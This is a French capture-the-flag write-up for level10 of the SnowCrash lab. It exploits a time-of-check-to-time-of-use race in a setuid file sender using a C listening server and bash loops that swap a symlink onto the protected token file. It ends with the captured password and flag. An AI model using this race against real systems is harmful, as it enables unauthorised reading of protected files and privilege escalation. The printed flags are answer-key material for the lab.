 # Level10 - Time of Check to Time of Update Race
Pour résoudre le level10, on a un fichier level10 et un fichier token. level10 utilise un socket pour transmettre le contenu d'un fichier vers le port 6969 de l'IP indiquée en paramètres.

```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```

Pour que l'on puisse exploiter ce programme, on va avoir besoin de créer un programme serveur qui va écouter sur le port 6969 de notre VM de travail, et qui va récupérer la data qu'envoie le client depuis la VM SnowCrash.

```
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdlib.h>
#include <unistd.h> /* close */
#include <netdb.h> /* gethostbyname */
#include <errno.h>
#include <stdio.h>

#define INVALID_SOCKET -1
#define SOCKET_ERROR -1
#define closesocket(s) close(s)
#define PORT 6969

typedef int SOCKET;
typedef struct sockaddr_in SOCKADDR_IN;
typedef struct sockaddr SOCKADDR;
typedef struct in_addr IN_ADDR;

int main ()
{
        char buff[2048];
        //Creation du socket
        SOCKET ssocket = socket(AF_INET, SOCK_STREAM, 0);
        if (ssocket == INVALID_SOCKET)
        {
                perror("socket()");
                exit(errno);
        }

        //Creation de l'interface d'ecoute du socket
        SOCKADDR_IN sin = { 0 };

        sin.sin_addr.s_addr = htonl(INADDR_ANY);
        sin.sin_family = AF_INET;
        sin.sin_port = htons(PORT);

        if (bind(ssocket, (SOCKADDR *)&sin, sizeof(sin)) == SOCKET_ERROR)
        {
                perror("bind()");
                exit(errno);
        }

        //Linitation du nombre de connections
        if (listen(ssocket, 5) == SOCKET_ERROR)
        {
                perror("listen()");
                exit(errno);
        }


        SOCKET client_socket;
        while(1)
        {
                SOCKADDR_IN client_sin = { 0 };
                socklen_t clientLength = sizeof(client_sin);
                client_socket = accept(ssocket, (SOCKADDR *)&client_sin, &clientLength);
                if (client_socket == INVALID_SOCKET)
                {
                        perror("accept()");
                        exit(errno);
                }

                //Reception des datas
                int n = 0;
                bzero((void*)buff, sizeof(buff));
                while ((n = recv(client_socket, buff, sizeof(buff) - 2, 0) > 0))
                {
                        printf("%s\0\n", buff);
                        bzero((void*)buff, sizeof(buff));
                }
        }
        closesocket(ssocket);
        closesocket(client_socket);
}
```

On essaie d'envoyer un fichier simple avec `level10`, on reçoit bien son contenu sur notre serveur.
Malheureusement, nous n'avons pas les droits sur token, et une vérification de ces derniers semble etre effectuée avant l'envoi du fichier.

```
-- COTÉ CLIENT --

level10@SnowCrash:~$ ./level10 /tmp/toto 192.168.56.106
Connecting to 192.168.56.106:6969 .. Connected!
Sending file .. wrote file!

level10@SnowCrash:~$ ./level10 token 192.168.56.106
You don't have access to token

-- COTÉ SERVEUR --

.*( )*.
toto
```

En regardant les `strings` du programme, on s'aperçoit que ce dernier utilise la fonction `access`. Un tour sur le man et on peut y lire:
> Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.

On est donc face à un cas de `Time of Check to Time of Update Race`, c'est à dire qu'entre le moment où l'on va vérifier si on a accès au fichier qu'on tente d'envoyer et le moment où on va l'ouvrir pour récupérer son contenu, il faut pourvoir tromper le programme pour lui faire ouvrir notre fichier `token`.

#### Pour cela, on crée deux scripts:

Le premier va venir créer un lien symbolique vers un fichier auquel on a accès, puis va supprimer ce lien et le remplacer par un lien vers notre token. Les deux liens auront le même nom et le même path, ce qui fera croire au programme qu'il ouvre bien le bon fichier.

```
#!/bin/bash
while :
do
        rm -f /tmp/faketoken
        ln -s /home/user/level10/level10 /tmp/faketoken
        rm -f /tmp/faketoken
        ln -s /home/user/level10/token /tmp/faketoken
done
```

Le deuxième va simplement envoyer en boucle notre lien au programme `level10`
```
#!/bin/bash
while :
do
/home/user/level10/level10 /tmp/faketoken 192.168.56.106
done
```

On lance notre serveur, et on exécute les deux scripts. Au bout de quelques secondes, on reçoit le contenu de `token` sur notre serveur.

```
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
...
```

On se connecte sur le compte flag10 et on obtient notre token:

```
level10@SnowCrash:/tmp$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

On a notre token: `feulo4b72j7edeahuete3no7c`

